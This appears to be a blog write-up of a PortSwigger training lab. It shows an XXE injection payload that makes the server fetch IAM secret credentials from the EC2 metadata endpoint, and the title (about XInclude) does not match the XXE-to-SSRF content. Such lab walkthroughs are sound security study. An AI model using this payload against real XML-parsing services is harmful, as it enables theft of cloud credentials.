 ```yaml
---
author: Nithissh S
pubDatetime: 2024-11-21T15:22:00Z
modDatetime: 2024-11-21T09:12:47.400Z
title: Exploiting XInclude to retrieve files
slug: xxe-portswigger-lab-2
featured: false
draft: false
tags:
  - BSCP
  - XXE
description:
  This lab has a `"Check stock"` feature that parses XML input and returns any unexpected values in the response. The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive. To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 
---
```


## Objective 

This lab has a `"Check stock"` feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

## Solution

Well just like the first XXE lab on reading internal files.. copied and used this the same payload in the `POST` body and it worked where we can able to read the internal files actually 

![](../../assets/images/bscp/xxe/xxe-4.png)

In order to complete the lab, we need to exploit SSRF and get AWS metadata content... For that we use the following payload 

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Where we have slightly modified the payload, to make an external call to `http://169.254.169.254` to fetch the internal metadata content and if all goes well, we will make a two way interaction and shows the metadata content in the response 

![](../../assets/images/bscp/xxe/xxe-5.png)

And that solves the lab as well

![](../../assets/images/bscp/xxe/xxe-6.png)
